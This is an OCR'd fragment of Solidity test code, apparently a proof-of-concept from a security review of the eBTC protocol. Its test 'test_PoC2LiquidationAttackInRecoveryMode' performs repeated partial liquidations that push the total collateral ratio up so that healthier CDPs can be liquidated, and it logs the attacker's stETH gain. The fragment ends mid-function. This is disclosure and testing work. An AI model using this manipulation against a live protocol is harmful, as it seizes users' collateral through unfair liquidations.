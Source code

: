 ```solidity

        uint256 _stETHBalance = collateral.balanceOf(user);
        uint256 _eBTCBalance = eBTCToken.balanceOf(user);
        uint256 userRevenue = _stETHBalance - stETHBalance - collateral.getSharesByPooledEth(((eBTCBalance - _eBTCBalance) * DECIMAL_PRECISION) / price);
        console.log("\n");
        console.log("Final user revenue(stETH in wei): ", userRevenue);
    }

    function test_PoC2LiquidationAttackInRecoveryMode() public {
        console.log("--- Attacker will liquidate all CDPs (TCR <= ICR < CCR) and some CDPs (ICR < TCR < CCR) ---");
        console.log("---------------------------- Start Attack ----------------------------");
        uint256 TCR;
        uint256 targetICR;
        uint256 icr0;
        uint256 deltaDebt;

        uint256 price = priceFeedMock.fetchPrice();
        bool isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
        console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);
        isAvailableToLiq = _checkAvailableToLiq(cdpIds[0], price);
        console.log("Is available to liquidate CDP_110ICR? ", isAvailableToLiq);
        if (isAvailableToLiq) {
            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 122%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[1], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[1], price);
            console.log("Is available to liquidate CDP_122ICR? ", isAvailableToLiq);

            if (isAvailableToLiq) {
                console.log("- Liquidate CDP_122ICR fully");
                vm.prank(user);
                cdpManager.liquidate(cdpIds[1]);

                TCR = cdpManager.getCachedTCR(price);
                console.log("TCR after LiqCDP_122ICR: ", TCR);
            }

            console.log("\n");
            console.log("- Liquidate CDP_110ICR partially: TCR -> 123%");
            icr0 = cdpManager.getSyncedICR(cdpIds[0], price);
            targetICR = cdpManager.getSyncedICR(cdpIds[2], price);
            deltaDebt = _calcDebtForDesiredTCRWithLastCDP(targetICR, activePool.getSystemCollShares(), activePool.getSystemDebt(), price, icr0);
            console.log("deltaDebt: ", deltaDebt);
            vm.prank(user);
            cdpManager.partiallyLiquidate(cdpIds[0], deltaDebt, cdpIds[0], cdpIds[0]);

            TCR = cdpManager.getCachedTCR(price);
            console.log("TCR: ", TCR);

            isAvailableToLiq = _checkAvailableToLiq(cdpIds[2], price);
```